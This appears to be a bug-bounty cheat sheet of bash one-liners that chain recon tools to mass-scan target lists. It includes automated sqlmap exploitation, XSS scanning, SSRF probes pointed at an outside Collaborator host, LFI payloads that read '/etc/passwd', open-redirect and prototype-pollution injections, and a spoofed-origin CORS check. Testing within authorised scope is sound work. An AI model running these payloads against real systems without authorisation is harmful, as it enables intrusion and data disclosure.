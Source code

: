 # Bug Bounty with One-Line Bash Scripts
&nbsp;

### Hunt XSS
```
cat targets.txt | anew | httpx -silent -threads 500 | xargs -I@ dalfox url @
cat targets.txt | getJS | httpx --match-regex "addEventListener\((?:'|\")message(?:'|\")"
```
&nbsp;

### Hunt SQLi
```
httpx -l targets.txt -silent -threads 1000 | xargs -I@ sh -c 'findomain -t @ -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 1'
```
&nbsp;

### Hunt SSRF
```
findomain -t http://target.com -q | httpx -silent -threads 1000 | gau |  grep "=" | qsreplace http://YOUR.burpcollaborator.net
```
&nbsp;

### Hunt LFI
```
gau http://vuln.target.com | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
```
&nbsp;

### Hunt Open Redirect
```
gau http://vuln.target.com | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'
```
&nbsp;

### Hunt Prototype Pollution
```
subfinder -d http://target.com | httpx -silent | sed 's/$/\/?__proto__[testparam]=exploit\//' | page-fetch -j 'window.testparam=="exploit"?"[VULN]":"[NOT]"' | sed "s/(//g"|sed"s/)//g" | sed "s/JS//g" | grep "VULN"
```
&nbsp;

### Hunt CORS:
```
gau http://vuln.target.com | while read url;do target=$(curl -s -I -H "Origin: https://evvil.com" -X GET $url) | if grep 'https://evvil.com'; then [Potentional CORS Found]echo $url;else echo Nothing on "$url";fi;done
```
&nbsp;

###  Extract .js
```
echo http://target.com | haktrails subdomains | httpx -silent | getJS --complete | tojson | anew JS1
assetfinder http://vuln.target.com | waybackurls | grep -E "\.json(?:onp?)?$" | anew 
```
&nbsp;

### Extract URLs from comment
```
cat targets.txt | html-tool comments | grep -oE '\b(https?|http)://[-A-Za-z0-9+&@#/%?=~_|!:,.;]*[-A-Za-z0-9+&@#/%=~_|]'
```
&nbsp;

### Dump In-scope Assets from HackerOne
```
curl -sL https://github.com/arkadiyt/bounty-targets-data/blob/master/data/hackerone_data.json?raw=true | jq -r '.[].targets.in_scope[] | [.asset_identifier, .asset_type]
```
&nbsp;

### Find live host/domain/assets
```
subfinder -d http://vuln.target.com -silent | httpx -silent -follow-redirects -mc 200 | cut -d '/' -f3 | sort -u
```
&nbsp;

### Screenshot
```
assetfinder -subs-only http://target.com | httpx -silent -timeout 50 | xargs -I@ sh -c 'gowitness single @' 
```
&nbsp;
